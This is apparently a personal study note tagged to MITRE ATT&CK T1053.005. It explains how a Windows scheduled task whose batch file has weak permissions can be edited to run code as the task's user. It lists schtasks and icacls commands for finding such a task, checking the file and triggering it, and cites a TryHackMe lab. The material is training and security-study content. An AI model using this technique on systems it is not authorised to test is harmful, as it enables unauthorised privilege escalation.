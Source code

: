 # Overview
MITRE ATT&CK 
Tactic: Execution, Persistence, Privilege Escalation
Technique ID (2023): T1053.005
Technique: Schedule Task/Job
Sub-Technique: Scheduled Task

tags: #execution, #persistence, #privilegeEscalation, #scheduledTask, #windows


# Description

Identify scheduled tasks that have a task to run which is a filename.  Evaluate the permissions of the file.  Due to incorrect acls on the file you are able to modify it and run and gain access as the user setup as the "Run as User"

# References:
Tryhackme - Windows Privilege Escalation

References: https://www.linkedin.com/pulse/lolbin-attacks-scheduled-tasks-t1503005-how-detect-them-v%C3%B6gele



# Commands to Exploit

Run a query using schtasks as the task name and format the output as a list...
```cmd
schtasks /query /tn vulntask /fo list /v
```

Execute the command to evaluate the ACLs of the file displayed in the "Task to Run"
```cmd
icacls c:\tasks\schtask.bat
```

After modifying the file you can manually execute by running the following
```cmd
schtasks /run /tn vulntask
```



